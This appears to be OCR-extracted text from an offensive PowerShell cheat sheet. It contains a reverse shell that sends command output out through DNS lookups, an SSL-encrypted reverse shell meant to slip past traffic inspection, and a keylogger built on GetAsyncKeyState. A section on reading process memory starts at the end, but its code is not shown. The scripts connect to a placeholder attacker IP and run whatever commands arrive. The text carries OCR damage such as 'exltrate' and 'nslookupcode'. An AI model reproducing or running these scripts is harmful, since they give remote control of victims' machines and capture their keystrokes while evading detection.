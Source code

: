 ### DNS-Based PowerShell Reverse Shell

This script uses DNS requests to exltrate data, making the reverse shell trac appear as DNS queries, which can be less suspicious and harder to detect.

```powershell
function Invoke-DNSReverseShell { param([string]$attacker_ip, [int]$attacker_port) $client = New-Object
System.Net.Sockets.TCPClient($attacker_ip, $attacker_port); $stream = $client.GetStream();
[byte[]]$bytes = 0..65535|%{0}; while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){; $data =
(New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i); $sendback = (iex $data 2>&1 |
Out-String ); $encodedSendback =
[Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes($sendback)); nslookupcode
$encodedSendback $attacker_ip; $stream.Flush()}; $client.Close() }
```

### Encrypted PowerShell Reverse Shell

Creates an encrypted reverse shell using SSL to secure the communication channel, making it more difficult for network security measures to inspect the traffic.

```powershell
$ErrorActionPreference = 'SilentlyContinue'; $client = New-Object
System.Net.Sockets.TCPClient('attacker_ip', attacker_port); $stream = $client.GetStream(); $sslStream =
New-Object System.Net.Security.SslStream($stream, $false, {$true} );
$sslStream.AuthenticateAsClient('attacker_ip'); $writer = New-Object
System.IO.StreamWriter($sslStream); $reader = New-Object System.IO.StreamReader($sslStream);
while($true) { $writer.WriteLine('PS ' + (pwd).Path + '> '); $writer.Flush(); $command =
$reader.ReadLine(); if($command -eq 'exit') { break; }; $output = iex $command 2>&1 | Out-String;
$writer.WriteLine($output); $writer.Flush() }; $client.Close()
```

### Invoke Windows API for Keylogging

This script uses a Windows API call to check the state of each key on the keyboard, eectively logging
keystrokes. It can be used to capture user input.

```powershell
Add-Type -TypeDefinition @" using System; using System.Runtime.InteropServices; public class KeyLogger
{ [DllImport("user32.dll")] public static extern int GetAsyncKeyState(Int32 i); } "@ while ($true) {
Start-Sleep -Milliseconds 100 for ($i = 8; $i -le 190; $i++) { if ([KeyLogger]::GetAsyncKeyState($i) -
eq -32767) { $Key = [System.Enum]::GetName([System.Windows.Forms.Keys], $i) Write-Host $Key } } }
```

### Accessing Physical Memory with Windows API

This PowerShell script uses the ReadProcessMemory function from the Windows API to read a specied amount of memory from a process. It’s useful for extracting information from running processes.
